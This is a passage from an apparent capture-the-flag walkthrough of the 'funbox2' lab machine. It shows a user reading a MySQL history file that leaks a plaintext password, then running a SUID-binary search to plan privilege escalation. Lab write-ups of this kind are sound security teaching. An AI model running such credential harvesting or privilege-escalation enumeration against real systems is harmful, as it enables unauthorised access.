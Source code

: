 -rw-r--r-- 1 tom  tom  3771 Apr  4  2018 .bashrc

-rw-r--r-- 1 tom  tom   807 Apr  4  2018 .profile

tom@funbox2:~$ cat .mysql_history 

_HiStOrY_V2_

show\040databases;

quit

create\040database\040'support';

create\040database\040support;

use\040support

create\040table\040users;

show\040tables

;

select\040*\040from\040support

;

show\040tables;

select\040*\040from\040support;

insert\040into\040support\040(tom,\040xx11yy22!);

quit

Maybe a password left there

Now to check around for programs that allow root level execution to priv esc from there.

tom@funbox2:~$ find / -perm -4000 2>/dev/null

/snap/core/10126/bin/mount

/snap/core/10126/bin/ping

/snap/core/10126/bin/ping6

/snap/core/10126/bin/su

/snap/core/10126/bin/umount

/snap/core/10126/usr/bin/chfn

/snap/core/10126/usr/bin/chsh

/snap/core/10126/usr/bin/gpasswd

/snap/core/10126/usr/bin/newgrp

/snap/core/10126/usr/bin/passwd

/snap/core/10126/usr/bin/sudo

/snap/core/10126/usr/lib/dbus-1.0/dbus-daemon-launch-helper
